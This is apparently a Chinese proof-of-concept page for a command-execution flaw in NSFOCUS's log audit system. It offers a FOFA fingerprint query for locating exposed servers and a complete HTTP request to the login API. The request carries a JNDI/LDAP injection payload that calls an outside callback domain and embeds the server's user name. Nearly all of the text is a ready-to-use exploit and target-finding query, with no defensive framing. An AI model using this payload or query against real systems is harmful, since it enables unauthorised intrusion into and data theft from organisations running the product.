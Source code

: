 ## 绿盟日志审计系统存在命令执行漏洞

## fofa
```
"<title>{{platformName}}</title>" && icon_hash="-1566499661"
```

## poc
```
PUT /api/v1/login HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 36
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Accept-Language: zh_CN
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=C2CBDF46F7B53365D2ECE60AA645B673; sessionid=w0gr7fyrkt56tf6yc3sr0pw6mjl59txi

{"name":"${jndi:ldap://${sys:user.name}.a24693ffbb.ipv6.1433.eu.org}","password":"2Y4W5F5h"}
```

![image](https://github.com/wy876/POC/assets/139549762/a05a8dba-acfc-43d7-88c9-26f8ed6b01be)

![image](https://github.com/wy876/POC/assets/139549762/8df91e08-41cf-438b-88ed-5a559f20d18c)

